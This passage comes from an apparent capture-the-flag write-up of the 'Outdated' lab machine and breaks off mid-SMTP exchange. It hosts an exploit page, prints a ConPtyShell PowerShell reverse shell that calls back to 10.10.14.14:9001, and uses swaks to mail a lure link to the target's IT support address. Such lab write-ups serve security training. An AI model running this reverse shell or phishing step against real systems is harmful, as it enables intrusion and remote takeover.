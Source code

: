 Run the exploit, and we can save the `exploit.html` file to host it in the same directory with payload.

Let's download it and save as `index.html`.

```bash
┌──(kali㉿kali)-[~/htb/outdated/www]
└─$ curl http://10.10.14.14/exploit.html -o index.html
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    100  5785  100  5785    0     0   703k      0 --:--:-- --:--:-- --:--:--  807k
```

For the payload, I'm using `conptyshell` which is fully interactive on Windows environment.

```
function Invoke-ConPtyShell
{   
    <#
        .SYNOPSIS
            ConPtyShell - Fully Interactive Reverse Shell for Windows 
            Author: splinter_code
            License: MIT
            Source: https://github.com/antonioCoco/ConPtyShell
<SNIP>

{
    static void Main(string[] args)
    {
        Console.Out.Write(ConPtyShellMainClass.ConPtyShellMain(args));
    }
}

"@;

Invoke-ConPtyShell 10.10.14.14 9001
```

Then, let's host `index.html`, `shell.ps1` on port 80.
The web request without specific file is normally redirected to `index.html`.

Then, let's send a mail to `itsupport@outdated.htb`.

```bash
┌──(kali㉿kali)-[~/htb/outdated/www]
└─$ swaks --to itsupport@outdated.htb \
      --from bokchee@paeeri.com \
      --server 10.10.11.175 \
      --port 25 \
      --header "Subject: http://10.10.14.14" \
      --body "http://10.10.14.14"
=== Trying 10.10.11.175:25...
=== Connected to 10.10.11.175.
<-  220 mail.outdated.htb ESMTP
 -> EHLO kali
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<bokchee@paeeri.com>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Thu, 28 Nov 2024 14:02:45 -0500
 -> To: itsupport@outdated.htb
```